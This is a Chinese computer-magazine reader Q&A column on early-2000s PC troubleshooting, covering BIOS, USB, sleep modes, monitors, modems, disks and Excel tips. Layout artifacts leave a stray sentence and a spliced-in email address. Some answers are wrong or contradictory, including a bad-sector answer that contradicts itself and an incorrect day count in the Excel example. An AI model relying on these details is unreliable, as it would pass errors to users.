我的电脑中使用的是DQI P2e/333(845E)主板，使用得的很稳定。最近换了一款微软的IE4光电鼠标，将鼠标插在电脑的USB口上使用一切正常，可当我每次关机并切断220V交流电源后，再接通电源开机启动时主板就识别不出鼠标了，只能是拔下USB接口上的鼠标再插上才能认出来。请问该怎么办？（湖北 董记如）

答：你可以尝试使用如下办法解决问题：
- (1)升级最新BIOS，刷新文件下载地址为：http://www.qdigrp.com/qdise/gb/support/p-d_platinix8333.htm

## USB端口不能正常工作

为什么在接了并行口打印机或多于一个USB设备时，USB端口就不能正常工作了？

答：很有可能USB信号被主板上的Super I/O芯片封堵住了。典型的症状还包括，当并行口打印机工作时，USB鼠标不能工作。因为当打印机工作时，电流消耗较大，可能对Super I/O芯片的+5V信号产生干扰，使其有所下降。而由于过载电流保护电路检测的是+5V信号的一部分，所以它就很有可能误认为是漏电，并封锁住USB端口。只要去掉两个分压电阻，使过载电流保护电路监控全部+5V信号，而不是其中一部分，就可以避免上述情况。如果你遇到了这种情况，首先请将BIOS中并行口工作模式设置为ECP或ECP+EPP，看问题是否依然存在。

## 如何检测CPU的性能

我想自己检测一下CPU的性能好坏，应该用什么方法？

答：理论上说，CPU主频越高，运行速度越快，其性能越好。如果从检测的方面来说，应该重点检测CPU基本性能和CPU的超频能力。CPU基本性能可以通过测试软件来实现，比如可以通过SiSoftSandra2004来检测CPU BenchMark和CPU Multi-Media BenchMark这两项确定其性能。CPU超频能力的检测可以通过硬超频或者软超频来检测。硬超频可以采用主板硬跳线的方法来实现，软超频可以通过BIOS免跳线超频或者使用超频软件SoftFSB。SoftFSB通过软件改变时钟芯片部分寄存器的工作参数，从而让该芯片根据这些数值产生相应的系统总线频率达到改变系统总线频率的目的，这种方法更简单实用。

## 为何我的电脑没有‘休眠’功能

我是采用Windows 98SE系统，想实现STR功能，但是“控制面板→电源”中却只有“方案”、“高级”二个选项，“高级”的下拉菜单中也只有关机和等待二个选项，均没有“休眠”，用SETUP/PJ重新安装系统也不行，请问我该怎么办？

答：STR技术对电脑各组成部件要求全部支持后才能使用，哪怕有一个不支持，也会造成STR工作死机、无法唤醒、不能休眠等情况。解决方法：首先，对内存、显卡、声卡、硬盘、电源等关键硬件进行替换检查。然后，在“控制面板→系统→属性→设备管理器→系统设备”中，查看是否ACPI驱动程序有一项为不可用。如果有，则是没有正确地启动主板ACPI功能。原因是，Windows 98对能源方面的管理并不完善，同时Windows 98对较新的芯片组主板支持有限。到驱动之家下载Windows 98能源管理的补丁程序重新再试。或者更换Windows 2000操作系统试一试，因为Windows 2000较好地支持了ACPI功能。

小知识：STR(Suspend To RAM)是挂起到内存的缩写,是把数据和系统运行状态信息保存到主机的内存中，开机后在不损失内存数据的前提下，不通过复杂的系统检测而从内存中读取相应数据直接使系统进入挂起前的状态。该项技术源于笔记本电脑技术，是配合Windows 98高级能源管理的ON NOW功能设计的。其前身是STD(Suspend To Disk)技术。从使用效果上看，STR技术较STD技术更快更稳定，功耗更小。目前最新的主板BIOS均支持STR技术，而一些不支持STR技术的老主板也可以通过Windows 2000/XP操作系统获得STR技术支持。

可能是调制解调器本身是坏的，只能是更换另一台调制解调器了。

### Socket A 处理器上的四个橡胶垫有何用途

问:Socket A 处理器的每个角均有一个橡胶垫，它的作用是什么？

答:AMD Athlon/Athlon XP/Duron处理器采用Socket A封装技术，其厚度比早期的Socket 7薄。一旦散热器扣具安装不当，很容易发生核心被压碎的事件。因为安装散热器要先挂住扣具的一边，其底部会压到核心的一个边上，此时核心承受的局部压力很大。有了橡胶垫以后，由于它的高度比核心高，所以散热器的压力会施加在橡胶垫上，从而大大减小了CPU表面受损的几率。

但这种设计也带来了另外的问题，由于核心的位置比橡胶垫低，散热器扣具必须有足够的压力，否则无法将它与核心接触在一起。所以AMD Athlon/Athlon XP/Duron散热器的扣具力量较大，安装起来比较困难。

### 无法调整显卡刷新频率

问:我是用杂牌的17英寸显示器，显卡是nVIDIA TNT2 16MB显存，可是在“显示属性→适配器→刷新速度”中，刷新频率总是采用“默认”，无法调整，这是怎么回事？

答:无法调整显卡刷新频率的问题与显示器、显卡、显示内存、驱动程序几个方面有关。驱动程序包括显卡、显示器驱动程序，特别是安装显示器驱动程序容易被忽略。如果在安装Windows 98时选择采用“Super VGA显示器”，则可能会造成无法调整显卡的刷新频率。

解决方法:重新安装显卡、显示器的驱动程序。如果在Windows 98下没有找到显示器的类型，也可以使用相似或其他显示器的驱动程序来代替，一般都可以正常使用。该方法也是进行显示器超频的一种方法，使用名牌显示器的驱动程序来提高普通显示器的工作性能。注意，使用该方法不能太贪心，如果刷新频率设置过高，超过显示器的最大刷新率，就有可能烧坏显示器或降低显卡使用寿命。

### 内置调制解调器使用中的怪问题

北京读者梁永峰问:我的电脑中使用的是磐正8RDA3G主板，耕宇GeForce4 MX440显卡，金士顿DDR400 256MB内存，AMD XP2500+ CPU。前几天装了个PCI内置调制解调器拨号上网，刚插上调制解调器时电脑启动不了，拔下来后电脑可以启动，再插上也可以启动了，但下次仍然会出现这个问题，而且现在每次开机前(关机时间较长时)都要拔一次电源才能正常启动。如何解决这个怪问题？

答:你可以用如下办法解决:
- (1)对于插上调制解调器卡之后造成电脑无法启动的问题，建议将调制解调器更换到其他PCI插槽，再来看看是否还有同样的问题，如果仍然不能排除故障，可以刷新一下主板的BIOS。
- (2)对于主板启动之前要拔电源的问题，是磐正8RDA3系列主板比较常见的一个问题，一般情况下更换一款大功率、高负载能力的电源可以比较好地避免这个问题。

### 看似正常的调制解调器不能拨号

河南读者王来锁问:我有一个调制解调器，使用的芯片是CONEXANT RS56/SP-PCI R6793-17 E138587.1 0127 MEXICO。因不知道厂商和铭牌，所以找不到专用的驱动程序，因此就用了公版驱动程序。在系统中查看这个设备是正常运行的，但就是不能拨号上网。请问我该怎么办？

答:这个是常见的793也就是HCF猫，用公版驱动程序就可以。不能拨号是找不到设备还是没有拨号音？如果是前者，可以考虑换其他公版驱动程序；如果是后者，则很有可能是调制解调器本身是坏的，只能是更换另一台调制解调器了。

### BIOS测CPU温度与诊断家所测不同

陕西读者龚超问:我使用的是华硕CUV4X-M主板，在BIOS下测得的CPU温度是50摄氏度，但使用ASUS PC PROBE诊断家测CPU的温度就是20摄氏度了。请问这是怎么回事？

答:ASUS PC PROBE诊断家有智能降温功能，因此在启用该功能时测量出的温度就低许多了。

### 开机自检时出现系统被入侵的提示

江西读者安宁问:最近开机后电脑进行自检时出现如下错误提示:The system intruded, chassis opened or tampered before. Please check system. 请问是出了什么问题？我应该如何解决呢？

答:这是系统被入侵的提示，请根据主板说明书的指示找到短路chassis跳线，然后恢复BIOS的出厂值。

### 非正常启动电脑后CPU频率变低

南京读者何小莉问:我的电脑使用的是华硕A7V133_C型主板，Athlon Thunderbird 1GHz CPU，主板BIOS的版本号是1007，在使用过程中我发现当电脑非正常重新启动后，BIOS中的CPU显示频率会变成750 MHz。请问这是什么原因，如何才能解决这个问题？

答:出现BIOS将CPU识别为750 MHz的情况主要是由于主板的一种自我保护功能在起作用，即遇到非正常关机或者中断运行的时候，主板会认为启动失败而降低CPU工作频率。出现这个问题后你可以进入BIOS并重新校对CPU数值。如果要避免这样的情况出现，可以根据主板说明书上的提示，采用硬跳线的模式来设置CPU的频率。

### 启动到显示桌面时突然黑屏

广州读者章玉峰问:我的电脑最近出现了如下问题:电脑启动后能正常显示Windows启动界面，到了显示Windows桌面时突然黑屏，黑屏时显示器的各个指示灯不停闪烁。通过Windows启动菜单进入“安全模式”，版本冲突管理器跳出来报告说“c:\windows\system\ddeml.dll被替换成了低版本的文件”，单击“确认”按钮后出现“安全模式”的确认对话框，可以显示出Windows桌面。请问这是何故？如何解决？

答:黑屏时显示器的各个指示灯不停闪烁，这说明显示器无信号输入。能够进入“安全模式”也基本可以排除显卡接触不良的问题，因此最常见的故障原因就是显卡的驱动出现了问题。你可以在“安全模式”下删除显卡驱动程序，然后重启系统，此时系统会发现新硬件，不要让系统自动安装驱动程序，而是通过显卡驱动程序光盘来重新安装显卡驱动以便覆盖原来的显卡驱动程序文件。驱动安装完毕后重新启动系统即可解决问题。

### Win98第二版如何实现STR功能

问:我电脑装的是Windows 98第二版，版本号是4.10 2222A，请问如何实现STR功能？

答:请按照下面步骤进行设置。

1. 在BIOS中进行相应设置
- (1)开启电脑电源，按Del键进入CMOS设置。
- (2)打开POWER MANAGEMENT SETUP中的ACPI选项，选择“Enabled”。
- (3)打开POWER MANAGEMENT SETUP中的SUSPEND MODE OPTION选项，选择“STR”或“S3”。
- (4)打开PNP PCI CONFIGURATION中的PNP OS INSTALLED选项，选择“NO”。
- (5)保存设置并退出。

2. 打开ACPI功能
- (1)对于刚组装好的电脑来说，执行“SETUP/P J”命令安装操作系统。安装完成后，如果选择“开始”菜单中的“关闭系统”，在“关闭Windows”对话框中没有出现“将您的计算机转入休眠状态”选项，则可能是您的主板太老，不支持APM和ACPI功能，不能靠硬件实现STR功能。
- (2)如果是已经安装好Windows 98第二版的机器，而在安装系统时没有打开Windows 98的 ACPI功能，可按如下方法设置。在控制面板中的“电源管理设置”共有三个选项，分别是“电源方案”、“高级”、“休眠”，其中“休眠”选项即是实现STR功能的关键设置。步骤如下:
- ①进入“电源管理设置”的“休眠”选项，选定“启动休眠支持”。
- ②进入“电源管理设置”的“电源方案”选项，将“关闭显示器、关闭硬盘”设为“从不选择”。
- ③进入“电源管理设置”的“高级”选项，将“按下计算机电源按钮时”设为“等待”。
- ④进入“电源管理设置”的“电源方案”选项，在“系统等待时间”中设置相应的等待时间即可。“休眠”参数一定不要选。

如果在“电源管理设置”中找不到“休眠”选项，则证明机器无法自动实现(包括软实现)STR功能。请在“设置管理”中选择“按连接查看设备”，查看是否出现“ACPI即插即用BIOS”硬件。如果没有，一种情况是主板BIOS太旧，不支持ACPI功能，请升级BIOS。另一种还需要手动强制安装，可以通过升级为ACPI即插即用BIOS硬件的驱动程序，升级后有些可以使用(与主板的芯片组有关，BX级大多不可以使用)。如果还不行，建议使用软方法实现。

### 内存条的CL=2和CL=3是什么意思

问:内存条的CL=2和CL=3是什么意思，两者有什么区别，是不是CL=2的内存条比CL=3的内存条好超频？

答:CL是CAS Latency的缩写，指的是CPU在接到读取某列内存地址上数据的指令后到实际开始读出数据所需的等待时间，CL=2指等待时间为2个CPU时钟周期，而CL=3则为3个CPU时钟周期。对今天的高速CPU而言，1个时钟周期的长度微乎其微。因此不论CL=2还是CL=3的内存，用户在实际使用中是感觉不到性能差距的。而厂家在生产内存条时，不论CL=2还是CL=3，用的都是同样的原料和设备。只是在生产完成后检测时，挑出精度高的当CL=2的卖，精度相对低一些的则当CL=3的卖。实际上有不少被当作CL=3卖的内存条也可以在CL=2下工作。因此CL=2的内存条的最大优势就在于更精密一些，换而言之就是为超频所留的余地更大一些，超频后系统会更稳定一些。

### 显示器屏幕的四周有一圈黑框

问:我单位一台计算机的显示器最近出现屏幕的四周有一圈黑框无法显示画面、显示区域变小的现象，调整显示器上的水平和垂直位置也无效，有同事说是分辨率的问题，可我在Windows 98下将分辨率从800×600调低到640×480后无任何变化，请问这是怎么回事？

答:这有可能是由于显示器所能控制的最大数据流量受限制引起的问题。屏幕上的图像每秒要刷新很多次，刷新次数的多少与显示器的扫描频率有关(垂直扫描频率和水平扫描频率)。许多人都将刷新率设置到最高限，因为这样可有效地减少屏幕闪烁以保护眼睛。但如果设置的刷新率过高，显示器的控制电路将无法提供电子束扩展的足够宽度以使画面填充整个屏幕。因此您可以尝试在当前分辨率下减小屏幕的刷新速率，在它的显示驱动中一般都有此设置。步骤如下:
- (1)正常启动Windows 98操作系统，在系统桌面上用鼠标右键单击空白处，在弹出的右键菜单中选择“属性”。
- (2)在随后弹出的“显示属性”菜单中选E-mail:cf_hdb@cfan.com.cn

择 “设置→高级→适配器”。
(3) 在 “刷新速度” 栏的下拉菜单中选择低于目前刷新率值的数字，单击 “确定” 后退出，并根据提示确认该选择即可。
如果仍然无效，则很可能是显示器显像管的问题，可送专业部门维修。

## 升级 CPU 造成电脑无法启动

山东读者白建宇问: 我的电脑原来使用的是 AMD DURON 750MHz CPU、华硕 A7V133-C 主板，最近将 CPU 更换成 AMD ATHLON XP 1500+，接通电源后电脑未能点亮，随后按 RESET 键复位，接着主板自检到 AMD ATHLON 1500+ CPU，然后可以进入 Windows 98，退出系统重启电脑进入 CMOS 设置，发现 CPU SPEED 为 1000MHz，随即改为 1330MHz，此时 CPU FSB 及 DRAM 亦相应变为 133MHz，选 SAVE & EXIT 保存退出并重启电脑，主板即不断发出报警声，显示器也黑屏，反复重启仍然如此。请问这是怎么回事？请帮我解决这个问题。

答: 请注意检查你的 A7V133-C 主板的硬件版本号，在主板上 A7V133-C 字样的旁边应该印刷着 REV1.XX 形式的标号，如果是高于 1.05 的话，可以通过刷新 BIOS 到 1007 来支持 AMD ATHLON XP 系列的处理器。

## 硬盘主引导区损坏造成电脑无法启动

内蒙古读者曹明云问: 最近我的电脑在开机后出现如下错误提示: Em Disk. Disk I/O error. Replace the disk, and then press any key. 按回车键后显示 Boot Failure, Reboot and Select proper Boot device or Insert Boot Media in Selected Boot device. 并且无法引导 Windows 98。请问此问题该如何解决？

答: 出现这个问题的原因应该是你硬盘上的主引导扇区被破坏，造成系统无法引导。你可以使用 Windows 98 系统启动盘修复故障。具体操作方法是：

- (1) 在其他装有 Windows 98 的电脑上制作一张 Windows 98 启动盘，或到 http://1.gighost.net/randyboy/boot98sc.exe 下载启动盘制作工具来进行制作。
- (2) 开机后按 Del 键进入 BIOS SETUP，选择从软驱启动电脑并按 F10 键保存退出。
- (3) 将系统启动软盘插入软驱并启动电脑，正常引导后用 FDISK/MBR 命令修复硬盘的主引导扇区。
- (4) 然后再使用 SYS A: C: 命令传递系统文件到硬盘，随后重新设置为从硬盘启动后再启动电脑即可引导成功。

## 让物理光驱盘符与虚拟光驱盘符换岗

河北读者陈虎军问: 我在 Windows XP 中安装了虚拟光驱软件后发现虚拟光驱的盘符在物理光驱的盘符之后，而有的软件要求其所在光驱为第一位置，请问如何让虚拟光驱在物理光驱之前？

答: 你可以通过如下步骤解决问题：

- (1) 首先在系统桌面上依次选择 “开始→控制面板→系统→硬件→设备管理器”，在其中禁用原来的物理光驱。
- (2) 重启电脑，在 “我的电脑” 中应该找不到物理光驱。
- (3) 运行虚拟光驱软件进行设置，把虚拟光驱盘符设为第一个光驱。
- (4) 重启电脑，再进入 “设备管理器”，重新启用原来的物理光驱即可。

## Windows XP 下不能安装 USB 2.0 驱动

山东读者陈铁斌问: 我的电脑使用的是 Intel 845E 芯片组主板，支持 USB2.0 设备，我在硬盘中安装了 Windows 98 和 Windows XP 双系统，在 Windows 98 下把驱动都安装完后，什么问题都没有，设备管理器里也没有任何未知设备和感叹号，但在 Windows XP 中手动安装 USB 2.0 设备的驱动时总是不成功，出现黄色感叹号。我试着更新 SP1 扩展包，但系统提示语言不对，不能升级，现在在 Windows XP 中无法正常使用 USB 2.0 设备。请问我该怎么办？

答: 不少 USB 2.0 设备在 Windows 98 和 Windows 2000 下都能工作得很好，但在 Windows XP 却不能正常工作。出现这样的问题主要还是你的 USB 设备的 Windows XP 系列驱动需要 SP1 补丁包的支持，所以如果不升级到 SP1 的话，驱动是不能正常安装的。由于你在升级过程中系统提示语言不对，这说明你应该是在系统中安装了多国语言扩展包。此时你可以重装 Windows XP 并马上升级到 SP1 或 SP2 再激活，这样你的 USB 2.0 设备就会自动被系统识别，并且可以正常使用了。

## 升级 CPU 后主板的 UpdateEasy 功能失效了

江西读者宋宏问: 我使用的是 QDI P8/333 主板，最近将 CPU 更换成了支持 Hyper-Threading 技术的 P4 3.06GHz CPU 后发现主板的 UpdateEasy 功能不能使用了，即当用 UpdateEasy 功能执行升级操作时总是提示文件大小不对，请问该如何处理？

答: 你可以到 QDI 的官方网站 http://www.qdigrip.com 下载一个名叫 P8_V2.2SLCP.zip 的文件刷新主板的 BIOS 即可解决问题。

## “墨尽” 指示灯未亮时如何更换墨盒

山西读者蔡建胜问: 我使用的是 EPSON 710 喷墨打印机，请问在墨盒中仍有墨的情况下即 “墨尽” 指示灯没有亮时，应该如何更换打印机的墨盒？

答: 你可以按住打印机上的 “进纸” 键 3 秒钟，使打印头移动到更换墨水盒的位置，然后更换新的墨盒，接着按下 “进纸” 键使打印头复位即可。

## 常见笔记本电脑投影输出的切换键

山东读者程剑问: 我公司经常需要把各种笔记本电脑中的图像通过投影机进行输出，请问常见的笔记本电脑的切换键是什么？

答: 常见的笔记本电脑的切换键如下：

- NEC 笔记本电脑是 Fn + F3
- Panasonic 笔记本电脑是 Fn + F3
- 东芝笔记本电脑是 Fn + F5
- IBM 笔记本电脑是 Fn + F7
- SONY 笔记本电脑是 Fn + F7
- 富士通笔记本电脑是 Fn + F10
- Macintosh 的笔记本电脑是启动后用操作面板上的调整设定 “镜像”

## 更换显卡后出现蓝屏死机故障

天津读者范英杰问: 我的电脑中使用的是 ASUS A7N266-VM 主板，最近将显卡更换成了 nVidia FX5700，可启动系统后总是发生蓝屏死机甚至重启现象，请问如何才能解决这个问题？

答: 出现这个问题的原因是主板和显卡存在兼容性问题，你应该将 ASUS A7N266-VM 主板的 BIOS 更新为 1004.001 或更新的版本，并且安装 nVidia 公版 61.76 显示卡驱动程序即可解决这个问题。
A7N266-VM 主板 1004.001 版 BIOS 下载地址: http://www.asus.com.tw/support/download/selectftp.aspx?l1_id=1&l2_id=10&l3_id=16&m_id=4&f_name=1008-002.zip~zaqwedc
nVidia 公版驱动程序 61.76 版下载地址: ftp://download.nvidia.com/windows/

## 随机附赠的鼠标为何无法被识别出来

北京读者程路问: 为什么随笔记本附赠的罗技无线鼠标无法被识别呢？

答: 你可以从如下几方面查找原因：

- (1) 无线鼠标的电池是否正确安装，电池极性是否正确，电量是否充足。
- (2) 无线鼠标上面的电源开关是否拨到了打开的位置。
- (3) 在笔记本电脑的操作系统桌面上从 “开始” 菜单中找到 Logitech 项并选择进入其下的 LogiConnect 项，然后按一次鼠标上的 Connect 按钮，再单击屏幕上弹出的窗口中的 “确定” 按钮即可。

## DirectX 中的 AGP 材质加速参数失效

江西读者邓荻问: 为什么我在系统中安装了 DirectX 9.0c 后，其中的 “AGP 材质加速” 参数总是显示成已停用呢？

答: 出现这个问题的原因一般是主板的 BIOS 版本过低，你可以到主板生产厂商的网站上下载最新的主板 BIOS 进行更新操作即可。

## 如何消除明基外接耳机的杂音

北京读者黄国章问: 我使用的明基 Joybook 外接耳机怎么总是有杂音呢？

答: 你可以采用如下方法解决问题：

- (1) 将耳机连接到其他音频设备上收听，如果仍存在杂音，则为耳机故障，应进行更换。
- (2) 若仅在插入瞬间有杂音，则是因为耳机插入瞬间电流较大而造成杂音，这是正常现象。
- (3) 使用音箱连接至耳机查看，如果输出的声音仍有杂音，则执行步骤 4。
- (4) 以 Windows XP 为例，在系统桌面上依次选择 “开始→设置→控制面板→声音、语音和音频设备→声音和音频设备”，然后选择 “音量” 标签，单击 “高级” 按钮。除 Volume 和 Wave 开启外，将其他类型的声音全部选择为 “静音”。若杂音消失，则为操作系统问题，建议重新安装干净的系统。

## 为何 BIOS 有时不能识别出硬盘

福建读者陈淑珍问: 为什么我的硬盘有时在 BIOS 中能显示出来，有时却无法被识别呢？

答: 主要有以下几种原因导致该问题：

- (1) 主板的 IDE 控制器有问题，你可以替换一下主板来验证。
- (2) 机箱电源供电电压不稳，可更换电源。
- (3) 主板上进行了超频设置，造成硬盘的时钟频率过高而出现不稳定的情况，恢复标准值即可。
- (4) 硬盘电路故障，需要更换硬盘。
- (5) 硬盘数据线问题，可更换数据线。

## SATA 硬盘不支持常用分区工具吗？

河南读者戴源庆问: 我在应用中发现 SATA 硬盘好像是不支持 FDISK 和 DM 等分区工具以及 GHOST 软件。请问是这样的吗？

答: SATA 硬盘是支持这些工具软件的。使用这类软件时出现问题多发生在以 ICH5 为南桥的主板上，因为它们都是基于 DOS 平台的，必须采用兼容模式(Compatible Mode)，当设置为增强模式(Enhanced Mode)时就会引发这些软件不能使用的故障。另外，使用 160GB 及更大容量的 SATA 硬盘时，由于 FDISK (Windows 98 中包含的版本)和 DM 这类分区软件推出较早，所以并不能很好地支持大于 137GB 硬盘的 48bit 寻址，有可能引起莫名其妙的故障，所以最稳妥的办法是安装打了 SP1 或 SP2 补丁的 Windows XP(或是打了 SP4 补丁的 Windows 2000)，在安装系统前只分一个区用来安装系统。等装好了系统，先修改注册表，通过 “开始→运行”，输入 regedt32 命令，打开注册表编辑器，在 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Atapi\Parameters]子项下新建一个键值，名称为 EnableBigLba，数值类型为 DWORD，值为 1。然后再用 “开始→控制面板→管理工具→计算机管理” 中的 “磁盘管理” 功能建立其余的分区。

## Windows 98 启动出现 0137 异常错误

江苏读者范宇问: 我的电脑安装的操作系统是 Windows 98，最近在启动系统并执行到系统配置的状态时，屏幕上出现 “致命的异常错误发生在 0137” 的错误提示，然后死机。请问这是怎么回事，如何解决这个问题？

答: 启动系统时，如果提示 “致命的异常错误发生在 0137”，一般都是由于硬件问题造成的。而其中主要的原因是芯片工作温度过高，也可能是内存、硬盘或显卡损坏。你可以通过如下步骤查找故障源头或解决问题：

- (1) 如果 CPU、显卡或内存被超了频，应该恢复到正常值。
- (2) 检查 CPU 散热风扇是否脱落或停转。
- (3) 检查显卡的主芯片散热风扇是否脱落或停转。
- (4) 检查内存条或硬盘是否损坏。

## 集成显卡主板装独立显卡无信号

河北读者程厚梁问：我的电脑使用的是采用 SIS730 芯片组的精英 K7SEM1.0 主板，主板上集成有显卡，并预留了一个 AGP 插槽。最近更换成铭瑄的 ATI9550 显卡，插到主板上并重新启动电脑后发现没有显示信号输出，请问该如何处理？

答：请在启动电脑后按 Del 键进入 BIOS 设置，找到 INTEGRATED PERIPHERALS OPTION 选项并进入，然后找到 AGP VGA SELECTION 项，将该项的参数改为 AGP SLOT，然后按 F10 键保存退出就可以了。

## 启动 Linux 不能检测到网卡

山西读者钱磊飞问：我使用的 Linux 内核为 v2.0.22，在启动系统时没有检测到已经安装的 PCI NE2000 兼容网卡，请问这时我该怎么办？

答：在 v2.0.30 内核之前的 ne.c 驱动程序只能识别基于 RealTek 8029 的兼容网卡的 PCI ID 号，所以驱动程序无法检测 PCI NE2000 兼容网卡。解决该问题的最简单方法是把 Linux 内核升级到 v2.0.31 以上版本。它可以识别五种不同的 NE2000-PCI 芯片的 ID 号，在启动或载入模块时自动检测到它们。如果你升级到了 v2.0.34 以上版本，会有一个比原来的 ISA/PCI 驱动程序稍小但更高效的 PCI 专用 NE2000 驱动程序。

## 液晶显示器我家不亮商家亮

内蒙古读者李世荣问：我最近购买了飞利浦的 170C4 液晶显示器，可是在接上电源后一开机就出现黑屏的现象，此时主机未开，正常情况下应出现无信号输入的画面，但反复按下电源开关，显示器的电源指示灯始终不亮。将液晶显示器送回经销商处却可以正常点亮。请问这是怎么回事？如何解决？

答：很可能是用电环境出现了问题，比如电源的电压波动幅度比较大。由于 170C4 液晶显示器内置电压保护电路，如遇电压不稳的情况会立即启动切断电源功能，这样可以保护显示器的自身安全。解决该问题的方法是购买一个名牌稳压电源连接上即可。

## 为何数码相机突然自动关机了

江苏读者杨其明问：数码相机有时候突然自动关机是怎么回事？

答：通常的原因是电池电力不足了，此时应该给电池充电或更换电池。另一个常见的原因是连续使用数码相机时间过长，造成相机过热而自动关闭了，此时应该停止使用，等相机冷却后再使用。再有就是电气问题，应该到维修部门检修。

## 为何硬盘会自动加速

问：我的电脑基本配置是：AMD Athlon XP2500+ 处理器，七彩虹 FX5700 显卡，宇瞻 512MB DDR 内存，精英 KT600-A 主板，希捷 80GB 7200 转硬盘，Windows XP 操作系统。最近出现了这样一种怪情况：在开机一段时间后，点击某个分区时，硬盘就出现加速状况，转速声音变大，但过一会儿又变得平稳。过一段时间再点击某个分区时，又会出现同样的状况。请问这种情况正常吗？

答：首先，你可以注意一下硬盘灯是否在硬盘加速的同时频繁地闪烁；其次，在单击其他地方（如桌面或者分区中的任意一个文件）的时候是否也出现了类似的情况。这时，你可以通过以下几个方法来检测：第一、建议你用最新的杀毒软件来进行全面的杀毒工作，以确定这一现象不是由病毒引起的。第二、如果是在单击某个固定的分区时，才出现这种情况的话，那么很可能是硬盘上出现了坏道，硬盘上的坏道分为两种，一种是物理坏道，一种是逻辑坏道。物理坏道是不可修复的，而逻辑坏道则可以通过磁盘扫描来修复的。具体方法如下，右键单击要检查的分区，选择“属性→工具标签→开始检查”，在弹出的对话框中，勾选“自动修复文件”和“扫描并试图恢复坏扇区”两个复选框，单击“开始”按钮即可修复物理坏道。

## 为何刻录机不能正常刻盘了

问：我有一个 BenQ 52 速 CD-R/RW 刻录机，刻盘一直很稳定，但是上周突然连续刻坏 6 张盘，用 CD-Speed 测试，曲线很差，后来重装了 Windows XP(SP2) 系统，再次用 CD-Speed 测试，曲线变得很好，但刻盘刻到一大半时就失败了。这该怎么解决啊？

答：刻录机出现连续的刻坏光盘的问题主要可从两方面解决：首先，重装一次刻录软件，同时检查你的系统（磁盘扫描、查杀病毒等）。如果还是不行的话，就要检查一下你的刻录机的连线是否正确。跟着，再将你的刻录机装到另外一台电脑上进行检测，如果能正常使用的话，那就可能是你系统问题，需要重新安装系统来解决了。

## BIOS 升级失败如何处理

问：我的主板是磐正 8RDA3I，用主板自带光盘的程序刷新 BIOS 时，进度到 50% 就停下来了。当时我以为是死机了，就按了重启键。那知道就再也开不了机了。主板放电我都试过了，不起作用。主板侦错灯显示 CO，不时变一下 E1。该怎么办啊？

答：这里很遗憾的告诉你，在更新 BIOS 的时候掉电所造成的损失，可以说是无法挽回的，况且你只在更新 50% 的地方就重新启动了，这样一半的程序还没有被更新，所以计算机无法启动是很正常的。这里给你介绍两种方法或许能挽救你的主板：一、把 BIOS 芯片从主板上取下来，然后专业的地方使用专业的仪器将 BIOS 重新写入，然后插回到你的主板上；二、找到与你的主板型号相同或者相近的主板，将主板的 BIOS 芯片取下替换到你的主板上，然后开机。进入系统后，小心的将 BIOS 芯片取下，换上你的 BIOS 芯片，然后再用 BIOS 刷新程序将主板 BIOS 再刷新一次。不过，建议你还是用第一种方法比较好，第二种方法有烧坏主板的危险。

## 为什么游戏和 MP3 的声音会比正常速度快

问：现在电脑不管是播放 MP3 还是玩游戏，声音总比正常播放速度快很多，听起来非常刺耳。请问这是什么原因？我的音效芯片是 AD1885。

答：播放声音比正常的速度快，这很有可能是驱动的问题。你可以去 www.mydrivers.com（驱动之家网站）下载稳定的声卡驱动程序。当然，你首先可以尝试使用最新版的驱动程序，如果还是有问题的话，可以再根据驱动的介绍选择一款较为稳定的版本。另外，你也可以检查一下你的播放器，并安装最新的 Direct X 9.0c。

## 为何总提示软盘未格式化

问：最近我的电脑出了点问题，于是格式化了 C 盘，重新安装了 Windows 98 系统。但在重装之后，每次使用软驱都会提示软盘没有格式化，要重新格式化软盘，单击确定后，却又显示不能格式化，换了新软驱后没多久又出现了相同现象，请问怎样解决？

答：在确定软盘已经是格式化过的情况下，出现提示软盘未格式化时，一般是软驱和软盘的质量问题造成的，目前市场上的软驱和软盘的质量真的可以用很差来形容，尤其是软盘，几乎可以说是“一次性”的使用。再加上软驱的质量也不过关，所以软盘使用几次就损坏了，这里建议你在备份重要的数据时，不要使用软盘，尽量使用 U 盘或者光盘。

## 软件

## 文件数量过多时出现刻录失败

问：我最近购买了刻录机，正在备份以前收集的文件资料，在刻录一些大文件时没有任何问题，但如果刻录的文件夹中包含上万个小文件时，常常会发生中途出错而刻坏光盘的情况。请问，是什么原因造成了这种情况的发生？如何才能保证刻录成功？（太原陈楚君）

答：发生这种情况的原因一般是由于正在运行的任务对系统资源的占用突然增多或系统分区中磁盘碎片过多而造成的。鉴于这些原因，在刻录大量小文件时，最好先对存放文件的硬盘进行碎片整理，然后再进行刻录，否则发生读取错误的几率会大大增加。另外，为了保证刻录的顺利进行，最好将正在进行的一些多余程序（如屏幕保护、下载文件、视频播放、音频播放等）关闭，以免降低系统效率，增加故障的出错几率。

除此之外，还有一种好的解决办法：先在硬盘中把要刻录的资料统统用 WinISO 之类的软件打包成一个虚拟映像 ISO 文件，然后将这个文件直接刻录到光盘中（注意是直接将一个 ISO 文件刻录到光盘中，刻录后光盘中仍然是只有一个 ISO 文件，而不是展开映像文件刻录），使用时用 DAEMON Tools 等虚拟光驱软件进行读取即可。用这种方法刻录光盘，如果刻录机具备防刻死功能，即使是在多任务或磁盘碎片存在的情况下，一般也不容易刻坏光盘。

## 轻松解决日期间隔天数计算问题

问：我是 1991 年 8 月 10 日参加工作的，我想知道我参加工作距今有多少天了。我的同学说需要编个小的程序来解决这个问题。请问，如何能不用编程快速计算出我需要的天数？（天津李越）

答：我们可以利用 Excel，用一个简单的减法公式即可计算出两个日期间隔的天数。方法如下：根据你所提供的参加工作时间是 1991 年 8 月 10 日，假设你的计算日期是 2005 年 1 月 5 日。首先在 Excel 工作表的某个单元格（如 B2 单元格）中输入参加工作日期 1991/08/10，在另一个单元格（如 B3 单元格）中输入计算日期 2005/01/05，接下来将光标移动到要存放计算结果的单元格（如 B4 单元格）中，右键单击 B4 单元格，选择快捷菜单中的“设置单元格格式”，选择数字类型为“数值”型，并将小数位数设置为 0。最后在这个单元格中输入公式 =B3-B2，回车之后两个日期间的天数 4906 就自动算出来了。

如果你经常要遇到这样的计算，那么你可以把这个文件保存为一个模板，命名为“天数计算器”，这样，当你下次想要计算某两个日期间的天数时，打开这个文件，然后修改前后两个日期，天数即会自动显示出来。

## Excel 中快速输入大写中文金额

问：我是搞会计工作的，最近刚用电脑，在用 Excel 处理数据的过程中，发现大写金额一栏的输入特别繁琐，尤其是我用拼音输入法输入选择很麻烦。请问，有什么更好的办法来实现大写中文数字的快速输入吗？（妮妮）

